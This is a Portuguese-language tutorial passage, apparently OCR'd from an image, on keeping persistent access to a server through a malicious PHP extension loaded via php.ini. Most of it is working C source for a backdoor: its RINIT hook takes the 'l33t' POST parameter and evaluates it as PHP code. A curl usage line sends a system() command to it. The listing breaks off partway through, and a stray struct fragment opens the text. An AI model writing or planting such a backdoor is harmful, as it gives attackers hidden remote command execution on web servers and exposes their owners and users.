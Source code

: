 ```c
	int module_number;
	const char *build_id;
};
```
# A técnica original
A técnica original (persistência com extensões do php) é bem simples e consiste em criar uma extensão própria do PHP escrita em C,

O interpretador do PHP carregará a extensão PHP na inicialização se ela for adicionada ao seu arquivo **php.ini** (`extension=extensao_leet.so`)

### mão na massa:
Você vai usar pelo menos 2 desses 4 hooks na criação de uma extensão:
- MINIT     <-- iniciar o módulo
- MSHUTDOWN <-- parar o módulo
- RINIT     <-- iniciar o handle de requisições
- RSHUTDOWN <-- parar o handle de requisições
  
No caso da persistência, você pode fazer uma extensão pra ler os cabeçalhos HTTP de uma requisição (igual nos módulos do apache maliciosos citados no tópico **Conclusão**) e fazer qualquer ação (tipo executar um comando).

Um exemplo:
```c
/*l33t.c - extensao maliciosa
 *para usar: 
 *   curl protocolo://ip:porta/index.php -d "l33t=system('comando');"
 */
#include "php.h"
PHP_RINIT_FUNCTION(l33t); //rinit citado anteriormente
zend_module_entry l33t_module_entry = {
    STANDARD_MODULE_HEADER,
    "l33t",          //extensao
    NULL,            //zend_function_entry
    NULL,            //MINIT
    NULL,            //MSHUTDOWN
    PHP_RINIT(l33t), //RINIT
	NULL,            //RSHUTDOWN
	NULL,            //MINFO
    "1.0",           //versao
    STANDARD_MODULE_PROPERTIES
};
ZEND_GET_MODULE(l33t);

PHP_RINIT_FUNCTION(l33t)
{
    char *metodo = "_POST";
    char *haxor = "l33t";

    #if PHP_MAJOR_VERSION < 7 //se a versao do php for menor de 7
        zval** arr;
        char* code;
        if (zend_hash_find(&EG(symbol_table), metodo, strlen(metodo) + 1, (void**)&arr) == SUCCESS) { //se o metodo for POST
            HashTable* ht = Z_ARRVAL_P(*arr);
            zval** val;
            if (zend_hash_find(ht, haxor, strlen(haxor) + 1, (void**)&val) == SUCCESS) { //se o haxor (l33t) for encontrado na requisicao
                code =  Z_STRVAL_PP(val);
                zend_eval_string(code, NULL, (char *)"" TSRMLS_CC); //executa o codigo passado no `haxor=`
            }
        }
```